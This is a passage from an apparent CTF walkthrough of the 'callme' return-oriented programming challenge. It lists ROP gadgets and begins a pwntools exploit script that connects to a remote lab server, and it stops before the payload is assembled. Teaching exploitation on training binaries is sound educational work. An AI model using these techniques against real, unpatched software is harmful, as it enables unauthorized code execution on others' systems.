 {% tab title="Radare2" %}

{% endtab %}
{% endtabs %}



We conveniently find the following gadget, which does everything we need:

```as
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

This gadget works great! It loads all the values we could need into the registers we need. We'll use this gadget for all three functions.

{% hint style="info" %}
#### _Important Note:_

There is more than one way to do this problem. This happens to be the most efficient, but in the case that gadget wasn't there, there is this combination:

```as
0x00000000004009a3 : pop rdi ; ret
0x000000000040093e : pop rdx ; ret
0x00000000004009a1 : pop rsi ; pop r15 ; ret
```

In this case, we would need to load `r15` with a random value, but this would work just fine.
{% endhint %}

While we're at it, we will also grab a gadget to beat the `movaps` instruction. The longer the payload and the more jumps we make, the more often we need the gadget.

```as
0x00000000004006be : ret
```

### Exploitation

Let's build the exploit from the ground up.

First, we define the binary, library, and the process:

```python
elf = context.binary = ELF("./callme")
libc = ELF("./libcallme.so")
p = remote('vunrotc.cole-ellis.com', 5300)
```

Then, we'll get the addresses of the `callme_` functions:

```python
f_callmeone = 0x0000000000400720
f_callmetwo = 0x0000000000400740
f_callmethree = 0x00000000004006f0
```

Then, we'll store the values we're going to pass to the functions:

```python
v_first = 0xdeadbeefdeadbeef
v_second = 0xcafebabecafebabe
v_third = 0xd00df00dd00df00d
```
